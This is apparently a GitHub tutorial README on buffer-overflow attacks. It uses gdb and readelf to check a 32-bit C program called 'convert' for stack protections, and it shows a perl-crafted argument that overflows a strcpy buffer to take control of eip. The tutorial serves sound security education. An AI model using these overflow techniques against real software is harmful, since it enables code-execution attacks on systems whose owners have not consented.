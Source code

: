 # buffer-overflow
This is an in depth exploration of buffer overflow attacks in vulnerable C/C++ programs. All programs are run in a 32-bit machine with Debian GNU/Linux 7.8. It's important to note that [Address space layout randomization](http://en.wikipedia.org/wiki/Address_space_layout_randomization) is disabled. Finally the programs are compiled with different options-flags that enable different protections. (will become clear in the following).
___
#### [convert](https://github.com/igavriil/buffer-overflow/blob/master/convert.c) C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x0804869c <+0>:	push   %ebp
   .........  ....: ....   ....
   .........  ....: ....   ....
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary, but in this case this mechanism wasn't enabled.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x80485b0
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4` this line indicated that the Stack is Read-Write but not executable, so we have one defensive mechanism to bypass.

###### Determine the size of the buffer to override the instruction pointer `$eip`
This is the line which can be used for overflowing the `date` buffer:
```
strcpy(date, argv[2]);
```
Let's explore the memory!
```
$ gdb convert
(gdb) run 1 $(perl -e 'print "A"x744 . "B"x4 . "C"x4 . "D"x4')
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
    eax            0x0	0
    ecx            0xbfffef78	-1073746056
    edx            0xb7fd3360	-1208143008
    ebx            0x41414141	1094795585
    esp            0xbffff2c0	0xbffff2c0
    ebp            0x43434343	0x43434343
    esi            0x0	0
    edi            0x42424242	1111638594
    eip            0x44444444	0x44444444
    eflags         0x10296	[ PF AF SF IF RF ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
```
